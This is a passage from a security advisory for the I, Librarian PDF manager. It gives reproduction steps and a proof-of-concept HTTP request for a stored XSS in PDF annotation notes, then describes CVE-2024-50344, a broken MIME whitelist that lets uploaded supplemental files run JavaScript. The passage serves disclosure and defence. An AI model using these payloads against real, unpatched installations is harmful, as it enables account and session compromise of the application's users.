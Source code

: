 ***

### Steps to Reproduce <a href="#steps-to-reproduce" id="steps-to-reproduce"></a>

1. Import a PDF file and navigate to its summary by clicking on the imported PDF file's name in the Items menu in the dashboard
2. Click on the "Pdf" button under the file's name in the top-side of the page to navigate to the file's preview, then click on the "Annotations" button in the top menu to save a comment containing an XSS payload such as: `<script>alert(1)</script>`
3. The stored XSS payload will be triggered any time a user visits the targeted PDF's summary.

***

### Proof of Concept <a href="#proof-of-concept" id="proof-of-concept"></a>

```http
POST /librarian/index.php/pdf/savenote HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Client-Width: 1280
X-Requested-With: XMLHttpRequest
Content-Length: 138
Origin: http://127.0.0.1:8080
Referer: http://127.0.0.1:8080/librarian/index.php/item
Cookie: IL=<cookie>

note=%3Cscript%3Ealert(1)%3C%2Fscript%3E&pg=1&top=1&left=1&id=<pdf-id>&csrfToken=<token>
```

## CVE-2024-50344

### Vulnerability Description

I, Librarian is an open-source version of a PDF managing SaaS.

Supplemental Files are allowed to be viewed in the browser, only if they have a white-listed MIME type. Unfortunately, this logic is broken, thus allowing unsafe files containing JavaScript to be executed with the application context.

An attacker can exploit this vulnerability by uploading a supplementary file that contains a malicious code or script. This code will then be executed when the file is loaded in the browser.

The vulnerability was fixed in version 5.11.2.

***

### Steps to Reproduce <a href="#steps-to-reproduce" id="steps-to-reproduce"></a>

